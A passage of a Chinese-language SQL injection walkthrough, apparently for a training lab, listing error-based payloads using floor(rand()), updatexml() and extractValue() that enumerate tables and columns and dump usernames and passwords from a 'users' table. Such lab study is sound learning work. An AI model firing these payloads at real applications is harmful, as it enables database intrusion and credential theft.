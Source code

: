    ```
   Duplicate entry 'users1' for key 'group_key'
   ```

   然后慢慢报列名

   ```
   ?id=1'union select count(*),0,concat((select (column_name) from information_schema.columns where 
   table_name='users' limit 1,1),floor(rand(0)*2))as a from information_schema.tables group by a --+
   ```

   ```
   id,username,password,ip,time
   ```

   然后就是从里面获取数据了
2. `updatexml()`

   ```
   ?id=1'and updatexml(1,concat(0x7e,database()),1) --+
   ```

   ```
   ?id=1'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) --+
   ```

   `emails,referers,uagents,users`

   ```
   ?id=1'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')),1) --+
   ```

   `id,username,password,ip,time,US`

   ```
   ?id=1'and updatexml(1,concat(0x7e,(select group_concat(username,0x7e,id,0x7e,password) from users)),1) --+
   ```
3. `extractValue()`

   ```
   ?id=1'and extractValue(1,concat(0x7e,database()))--+
   ```

   ```
   ?id=1'and extractValue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')))--+
   ```

   ```
   ?id=1'and extractValue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')))--+
   ```

   ```
   ?id=1'and extractValue(1,concat(0x7e,(select group_concat(username,0x7e,id,0x7e,password) from users)))--+
   ```

